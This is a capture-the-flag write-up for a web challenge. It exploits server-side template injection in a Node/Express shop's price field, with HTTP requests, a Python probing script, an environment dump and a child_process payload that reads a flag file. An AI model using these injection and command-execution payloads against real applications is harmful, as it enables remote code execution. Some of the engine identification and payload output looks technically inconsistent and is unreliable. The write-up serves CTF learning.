 # Black Market

We've given a url `http://chall2.heroctf.fr:3050`. 

![](assets/web.png)

`Basket` feature shows `403`.

![](assets/basket.png)

We can buy stuff navigating to `Our services` 

![](assets/buy.png)

If we buy any item and go back to `basket` we see it shows price and details. 

![](assets/basket1.png)

We see that it shows price and number of services purchased. It also generates new bitcoin address on every refresh. The `Buy` request look like below. 

```html
POST /buy HTTP/1.1
Host: chall2.heroctf.fr:3050
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 29
Origin: http://chall2.heroctf.fr:3050
DNT: 1
Connection: close
Referer: http://chall2.heroctf.fr:3050/services/malware

id=2&type=malware&price=0.053
```

Trying SSTI attempt succeeded with `{7*7}` input. 

```html
POST /buy HTTP/1.1
Host: chall2.heroctf.fr:3050
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 27
Origin: http://chall2.heroctf.fr:3050
DNT: 1
Connection: close
Referer: http://chall2.heroctf.fr:3050/services/ddos
Cookie: basket=eyJwdXJjaGFzZXMiOnsiMCI6eyJ0eXBlIjoibWFsd2FyZSIsImlkIjoyLCJwcmljZSI6IjAuMDUzIn19fQ%3D%3D

id=1&type=ddos&price={7*7}
```

![](assets/ssti.png)

Looking at the response headers we see that the server is hosted using NodeJS Express framework. 

```html
HTTP/1.1 200 OK
X-Powered-By: Express
Set-Cookie: basket=eyJwdXJjaGFzZXMiOnsiMCI6eyJ0eXBlIjoibWFsd2FyZSIsImlkIjoyLCJwcmljZSI6IjAuMDUzIn19fQ%3D%3D; Max-Age=900; Path=/; Expires=Mon, 26 Apr 2021 05:23:06 GMT; HttpOnly
Content-Type: text/html; charset=utf-8
Content-Length: 17
ETag: W/"11-KLSLPG1b7/ut5NWgA8Up/1GscNo"
Date: Mon, 26 Apr 2021 05:08:06 GMT
Connection: close

{"ok":"Success."}
```

We can try payloads related to either Jade or Handlerbars template engines. I wrote a simple python script to explore the injection. 

```python
import re
import sys
import requests

r = requests.post('http://chall2.heroctf.fr:3050/buy', data={'id':'1',"type":'malware',"price":sys.argv[1]})
c = r.headers['Set-Cookie'].split('=')[1].split(';')[0]
r = requests.get('http://chall2.heroctf.fr:3050/basket', cookies={'basket':c})
print(re.findall(r'Total:.*',r.text)[0])
```

Running this script with an argument `{{this}}` gives me `[object object]` output. 

```bash
python3 market.py 

Total: [object Object]<br/>
```

This confirms that the application is using Handlebars template engine. We can read more from [this](http://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html) blogpost. `env` can be accessed using `global.process.env` and the JavaScript object to string conversion can be done using `JSON.stringify` method. 

```bash
python3 market.py '{{JSON.stringify(process.env)}}'

Total: {&#34;NODE_VERSION&#34;:&#34;14.16.1&#34;,&#34;HOSTNAME&#34;:&#34;ca7ae5cfca55&#34;,&#34;YARN_VERSION&#34;:&#34;1.22.5&#34;,&#34;HOME&#34;:&#34;/root&#34;,&#34;PATH&#34;:&#34;/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin&#34;,&#34;PWD&#34;:&#34;/usr/src/app&#34;}<br/>
```

Output is gibberish :P but we can read stuff. Flag can be printed using below payload. 

```bash
python3 market.py '{{JSON.stringify(process.mainModule.constructor._load("child_process").exec("cat flag.txt"))}}'

Total: &#34;Hero{g3t_0n_my_l3v4l_4nd_fl3x}\n&#34;<br/>
```

